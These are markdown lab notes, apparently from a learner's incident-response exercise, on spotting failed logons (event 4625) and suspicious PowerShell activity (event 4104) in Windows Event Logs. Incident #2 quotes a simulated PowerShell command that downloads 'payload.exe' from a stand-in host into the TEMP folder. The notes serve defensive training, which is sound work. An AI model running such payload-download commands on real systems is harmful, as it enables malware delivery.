 # 🧾 Log Analysis Notes – Incident Response Lab (Day #11)

## 🔍 Objective
Analyze Windows Event Logs to detect and document:
- Failed login attempts (unauthorized access)
- Suspicious PowerShell activity (potential malware delivery)

---

## 📁 Log Sources Reviewed

| Log Type                          | Location                                                                 |
|----------------------------------|--------------------------------------------------------------------------|
| Failed Logon Attempts            | Event Viewer → Windows Logs → Security                                   |
| PowerShell Script Block Logging  | Event Viewer → Applications and Services Logs → Microsoft → PowerShell → Operational |

---

## 🧠 Incident #1: Failed Login Detection

- **Event ID**: 4625
- **Description**: Account failed to log on
- **Logon Type**: 2 (Interactive)
- **Username Attempted**: `BecomingCyber`
- **Timestamp**: `2025-04-16 14:23:01`
- **Workstation**: `DESKTOP-BECOMING`
- **IP Address**: `127.0.0.1` (localhost)

### 🔎 Key Takeaway
> Audit logon events are essential to identify brute-force or unauthorized login attempts.

---

## 🧠 Incident #2: PowerShell Download Simulation

- **Event ID**: 4104
- **Command**:
  ```powershell
  Invoke-WebRequest -Uri "http://example.com/payload.exe" -OutFile "$env:TEMP\payload.exe"
- Username: BecomingCyber

- Timestamp: 2025-04-16 15:14:23

- Outcome: Command logged (script block logging enabled)

## 🔎 Key Takeaway
PowerShell logging is vital to monitor encoded or obfuscated command usage by attackers.